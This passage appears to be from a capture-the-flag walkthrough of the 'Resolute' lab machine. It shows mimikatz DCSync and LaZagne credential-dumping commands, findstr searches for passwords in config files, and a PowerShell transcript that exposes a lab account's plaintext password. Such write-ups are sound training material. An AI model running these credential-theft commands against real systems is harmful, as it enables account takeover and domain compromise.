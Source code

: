 .\alvin1.exe lsadump::dcsync exit

It didn't work since mimikatz got deleted by AV. And looks like need to get ryan first

### Lateral movement
```evil-winrm
.\lazagne.exe all
```
deleted just like mimikatz

### Credential Hunting manually
```
findstr /SIM /C:"password" *.txt *ini *.cfg *.config *xml
findstr /SIM /C:"ryan" *.txt *ini *.cfg *.config *xml
``` 
first one from the result. Be careful don't overlook.

PSTranscripts\20191203\PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt

```
*Evil-WinRM* PS C:\> type PSTranscripts\20191203\PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt
**********************
Windows PowerShell transcript start
Start time: 20191203063201
Username: MEGABANK\ryan
RunAs User: MEGABANK\ryan
Machine: RESOLUTE (Microsoft Windows NT 10.0.14393.0)
Host Application: C:\Windows\system32\wsmprovhost.exe -Embedding
Process ID: 2800
PSVersion: 5.1.14393.2273
PSEdition: Desktop
PSCompatibleVersions: 1.0, 2.0, 3.0, 4.0, 5.0, 5.1.14393.2273
BuildVersion: 10.0.14393.2273
CLRVersion: 4.0.30319.42000
WSManStackVersion: 3.0
PSRemotingProtocolVersion: 2.3
SerializationVersion: 1.1.0.1
**********************
Command start time: 20191203063455
**********************
PS>TerminatingError(): "System error."
>> CommandInvocation(Invoke-Expression): "Invoke-Expression"
>> ParameterBinding(Invoke-Expression): name="Command"; value="-join($id,'PS ',$(whoami),'@',$env:computername,' ',$((gi $pwd).Name),'> ')
if (!$?) { if($LASTEXITCODE) { exit $LASTEXITCODE } else { exit 1 } }"
>> CommandInvocation(Out-String): "Out-String"
>> ParameterBinding(Out-String): name="Stream"; value="True"
**********************
Command start time: 20191203063455
**********************
PS>ParameterBinding(Out-String): name="InputObject"; value="PS megabank\ryan@RESOLUTE Documents> "
PS megabank\ryan@RESOLUTE Documents>
**********************
Command start time: 20191203063515
**********************
PS>CommandInvocation(Invoke-Expression): "Invoke-Expression"
>> ParameterBinding(Invoke-Expression): name="Command"; value="cmd /c net use X: \\fs01\backups ryan Serv3r4Admin4cc123!

if (!$?) { if($LASTEXITCODE) { exit $LASTEXITCODE } else { exit 1 } }"
>> CommandInvocation(Out-String): "Out-String"
>> ParameterBinding(Out-String): name="Stream"; value="True"
**********************
Windows PowerShell transcript start
```